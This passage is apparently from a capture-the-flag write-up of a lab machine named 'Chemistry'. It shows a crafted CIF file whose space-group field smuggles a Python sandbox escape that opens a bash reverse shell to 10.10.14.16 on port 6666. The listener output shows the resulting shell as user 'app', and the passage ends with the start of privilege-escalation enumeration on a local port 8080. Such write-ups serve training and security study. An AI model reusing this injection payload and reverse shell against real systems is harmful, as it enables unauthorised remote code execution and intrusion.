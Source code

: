 ```bash
data_5yOhtAoR
_audit_creation_date            2025-03-07
_audit_creation_method          "Hello people"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.16/6666 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
```

After that, we will upload the file and click on 'View
![[shell_cif_chem.png]]

Next, we set up our listener and receive the reverse shell as 'app'.

```bash
❯ revshell -p 6666
[i] Listening on 0.0.0.0:6666...
[+] Connected by 10.10.11.38:49590
[i] Attempting TTY upgrade...
[+] Binary 'python3' is installed, upgrading shell...
[i] Unsetting histfile...
app@chemistry:~$ id 
uid=1001(app) gid=1001(app) groups=1001(app)
```
## PRIVILEGE ESCALATION
---
After some enumeration, we found that port 8080 is open on localhost.

```bash
app@chemistry:~$ ss -tuln
Netid  State   Recv-Q  Send-Q   Local Address:Port   Peer Address:Port Process  
udp    UNCONN  0       0        127.0.0.53%lo:53          0.0.0.0:*             
udp    UNCONN  0       0              0.0.0.0:68          0.0.0.0:*             
tcp    LISTEN  0       128            0.0.0.0:5000        0.0.0.0:*             
tcp    LISTEN  0       128          127.0.0.1:8080        0.0.0.0:*             
tcp    LISTEN  0       4096     127.0.0.53%lo:53          0.0.0.0:*             
tcp    LISTEN  0       128            0.0.0.0:22          0.0.0.0:*             
tcp    LISTEN  0       128               [::]:22             [::]:*      
```

But we cannot access it, so we will likely need to escalate to the other user named 'rosa'.

```bash
app@chemistry:/tmp$ curl 127.0.0.1:8080
curl: (7) Failed to connect to 127.0.0.1 port 8080: Connection refused
```
